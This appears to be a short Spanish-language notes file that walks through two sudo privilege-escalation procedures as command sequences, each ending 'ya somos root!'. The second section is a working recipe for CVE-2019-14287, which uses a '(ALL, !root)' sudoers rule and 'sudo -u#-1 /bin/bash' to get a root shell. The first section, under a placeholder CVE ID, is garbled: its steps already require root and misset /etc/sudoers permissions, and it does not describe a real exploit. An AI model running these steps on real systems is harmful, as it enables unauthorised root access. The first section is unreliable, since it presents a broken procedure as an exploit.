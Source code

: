 # sudo

# CVE-2017-XXXX hackingyseguridad

#1.- Para editar el fichero sudoers sin problemas 

$chmod 777 /etc/sudoers    

#2.- Añadidmos en la linea sudo de /etc/group al usuario antonio

sudo vim /etc/group

sudo:x : 27:antonio

forzamos la escritura en group al salir con :wq!

#3.- Restablecemos los privilegios del fichero sudoers con 

$chmod 755 /etc/sudoers

#4.- Explotamos 

$sudo antonio

$sudo su

#whoami

#5.- ya somos root!


# CVE-2019-14287 VULNERABILIDAD SUDO VERSIONES < 1.8.28 

#0.- Comprovamos la version de sudo instalada con: 

$sudo -V

#1.- Editamos el fichero /etc/sudoers con: 

$sudo visudo 

#2.- Añadimos la linea con el usuario antonio 

#User privilege specification

root ALL=(ALL:ALL) ALL

%admin ALL=(ALL) ALL

antonio ALL=(ALL) /usr/bin/id

#3.- Ejecutamos: 

$su antonio

$sudo id

$sudo whoani

$sudo -u antonio id

#4.- Volvemos a editar el fichero /etc/sudoers con: 

$sudo visudo

#5.- Modificamos la linea

antonio ALL=(ALL, !root) ALL

#6.- Explotamos la vulnerabilidad con sudo -u#-1

$sudo -u#-1 /bin/bash

#whoami

#7.- ya somos root!
